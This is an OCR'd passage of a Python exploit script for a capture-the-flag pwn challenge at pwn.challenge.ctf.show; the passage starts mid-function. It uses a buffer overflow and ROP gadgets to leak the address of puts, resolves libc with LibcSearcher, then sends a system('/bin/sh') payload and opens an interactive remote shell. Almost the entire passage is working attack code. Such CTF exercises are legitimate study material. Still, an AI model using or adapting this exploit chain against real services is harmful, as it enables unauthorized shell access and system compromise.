 ```python
        else:
            print("put_plt addr = 0x%x" % addr)
            
            
def get_puts_got():
    
    pop_rdi = brop_addr +0x9
    payload  = b"A"*buf_size
    payload += p64(pop_rdi)
    payload += p64(puts_plt)
    payload += p64(puts_plt)
    payload += p64(stop_addr)

    sh = remote('pwn.challenge.ctf.show', port)
    sh.recvuntil(b'daniu?\n')
    sh.send(payload)
    recv = u64(sh.recv()[2:5].ljust(8,b"\x00"))
    sh.close()
    offs_got_puts=(recv)
    
    return puts_plt + 6 + offs_got_puts
    

            
puts_got = get_puts_got()

payload  = b"A"*buf_size
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(stop_addr)

sh = remote('pwn.challenge.ctf.show', port)
sh.recvuntil(b'daniu?\n')
sh.send(payload)
puts_addr = u64(sh.recv()[0:6].ljust(8,b"\x00"))
print (hex(puts_addr))

libc = LibcSearcher("puts",puts_addr)
libc_base = puts_addr - libc.dump("puts")
system_addr = libc_base + libc.dump("system")
binsh = libc_base + libc.dump("str_bin_sh")

payload  = b"A"*buf_size
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_addr)
payload += p64(stop_addr)

#sh = remote('pwn.challenge.ctf.show', port)
#sh.recvuntil(b'daniu?\n')
sh.sendline(payload)

sh.interactive()
```

